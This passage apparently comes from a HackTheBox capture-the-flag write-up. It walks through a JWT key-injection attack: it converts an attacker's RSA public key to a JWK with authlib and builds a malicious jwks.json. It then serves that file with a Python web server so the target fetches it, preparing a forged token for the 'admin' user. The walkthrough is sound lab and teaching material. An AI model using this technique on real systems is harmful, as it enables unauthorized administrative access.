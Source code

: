 `jwks.py`
```py
from authlib.jose import jwk

publick_key = '-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA6w2+L6ASM9vpReZbaFJ7\nvtlmf0MtARmuUsbMQ1HM3ECvPO32A/+NuQkntICvLVRqMGos28P/98aN3FPhiPZ1\nL7UESZkKcaHnB8lC2yt2+9bzNARYyLa9Y37hSBxHbL0L2Li1FxkwU/qwteRK5UaU\nwwXjPUTlurFD4mHshDgQnzfmGSdXX36Wlak1m8MEqfG7FbQ8IcfbAjPocmJDospc\nYJ60TsduPsf+3X5R6PG7h0/tWdOf8PCJSRyPAOgaM2lXPP7pDsDI/a2GDiRO+E+W\nFmnZiZSkV+arNrzYHOLb3u0zJj62mC8+9oOahWc1P5newV3xzsuXiDUcd1bjSqV/\ndwIDAQAB\n-----END PUBLIC KEY-----'

print(jwk.dumps(publick_key, kty='RSA'))
```

Running the script we get our new `n` which we replace in the `jwks.json` file.

```
$ python jwks.py
{'n': '6w2-L6ASM9vpReZbaFJ7vtlmf0MtARmuUsbMQ1HM3ECvPO32A_-NuQkntICvLVRqMGos28P_98aN3FPhiPZ1L7UESZkKcaHnB8lC2yt2-9bzNARYyLa9Y37hSBxHbL0L2Li1FxkwU_qwteRK5UaUwwXjPUTlurFD4mHshDgQnzfmGSdXX36Wlak1m8MEqfG7FbQ8IcfbAjPocmJDospcYJ60TsduPsf-3X5R6PG7h0_tWdOf8PCJSRyPAOgaM2lXPP7pDsDI_a2GDiRO-E-WFmnZiZSkV-arNrzYHOLb3u0zJj62mC8-9oOahWc1P5newV3xzsuXiDUcd1bjSqV_dw', 'e': 'AQAB', 'kty': 'RSA'}
```

`jwks.json`
```json
{
    "keys": [
        {
            "kty": "RSA",
            "use": "sig",
            "kid": "hackthebox",
            "alg": "RS256",
            "n": "6w2-L6ASM9vpReZbaFJ7vtlmf0MtARmuUsbMQ1HM3ECvPO32A_-NuQkntICvLVRqMGos28P_98aN3FPhiPZ1L7UESZkKcaHnB8lC2yt2-9bzNARYyLa9Y37hSBxHbL0L2Li1FxkwU_qwteRK5UaUwwXjPUTlurFD4mHshDgQnzfmGSdXX36Wlak1m8MEqfG7FbQ8IcfbAjPocmJDospcYJ60TsduPsf-3X5R6PG7h0_tWdOf8PCJSRyPAOgaM2lXPP7pDsDI_a2GDiRO-E-WFmnZiZSkV-arNrzYHOLb3u0zJj62mC8-9oOahWc1P5newV3xzsuXiDUcd1bjSqV_dw",
            "e": "AQAB"
        }
    ]
}
```

Next we stand up a python webserver so the target can reach our `jwks.json`

```
$ sudo python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

With all pererations met we can now forge our own token using the key pair we generated, a redirect url pointing to our `jwks.json` and the new username of `admin`.

